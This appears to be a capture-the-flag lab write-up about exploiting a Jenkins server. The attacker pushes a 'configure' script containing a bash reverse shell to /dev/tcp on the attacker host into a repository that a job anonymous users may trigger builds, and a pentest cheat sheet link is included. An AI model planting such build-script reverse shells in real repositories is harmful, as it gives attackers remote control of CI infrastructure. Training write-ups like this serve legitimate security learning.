

# jenkins-leveraging-code-repo

#### Objective: Leverage the scenario to get a shell on the Jenkins machine and retrieve the flag!

----

#### Bug

- The administrator has allowed all users to fire build on a pre-defined job and view build logs without logging in. However, defining a new task or changing the build process is only allowed to logged-in users.

----

- [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

----





```sh
root@attackdefense:~/Desktop# git clone http://192.83.162.4/root/sample-web-server.git
Cloning into 'sample-web-server'...
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 6 (delta 0), reused 0 (delta 0), pack-reused 0
Unpacking objects: 100% (6/6), 5.12 KiB | 2.56 MiB/s, done.
root@attackdefense:~/Desktop# 
```

```sh
root@attackdefense:~/Desktop# cd sample-web-server/
root@attackdefense:~/Desktop/sample-web-server# ls -l
total 28
-rw-r--r-- 1 root root   138 Jun 10 17:11 Makefile
-rw-r--r-- 1 root root  1049 Jun 10 17:11 README.md
-rw-r--r-- 1 root root    42 Jun 10 17:11 index.html
-rw-r--r-- 1 root root 13225 Jun 10 17:11 tiny.c
root@attackdefense:~/Desktop/sample-web-server# 
```

`configure`

```sh
#!/bin/bash

bash -i >& /dev/tcp/192.83.162.2/8080 0>&1
```

```sh
root@attackdefense:~/Desktop/sample-web-server# vim configure
root@attackdefense:~/Desktop/sample-web-server# chmod +x configure 
root@attackdefense:~/Desktop/sample-web-server# ls -l
total 32
-rw-r--r-- 1 root root   138 Jun 10 17:11 Makefile
-rw-r--r-- 1 root root  1049 Jun 10 17:11 README.md
-rwxr-xr-x 1 root root    56 Jun 10 17:14 configure
-rw-r--r-- 1 root root    42 Jun 10 17:11 index.html
-rw-r--r-- 1 root root 13225 Jun 10 17:11 tiny.c
root@attackdefense:~/Desktop/sample-web-server# 
```

```sh
root@attackdefense:~/Desktop/sample-web-server# git add .
root@attackdefense:~/Desktop/sample-web-server# git commit -m "updated shell"
[master 816da74] updated shell
 Committer: root <root@cb18f1d55887>
Your name and email address were configured automatically based
on your username and hostname. Please check that they are accurate.
You can suppress this message by setting them explicitly. Run the
following command and follow the instructions in your editor to edit
your configuration file:

    git config --global --edit

After doing this, you may fix the identity used for this commit with:

    git commit --amend --reset-author

 1 file changed, 3 insertions(+)
 create mode 100755 configure
root@attackdefense:~/Desktop/sample-web-server# git push
Username for 'http://192.83.162.4': root
Password for 'http://root@192.83.162.4': 
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 48 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 314 bytes | 314.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0)
To http://192.83.162.4/root/sample-web-server.git
   e5a5285..816da74  master -> master
root@attackdefense:~/Desktop/sample-web-server# 
```


----

EOF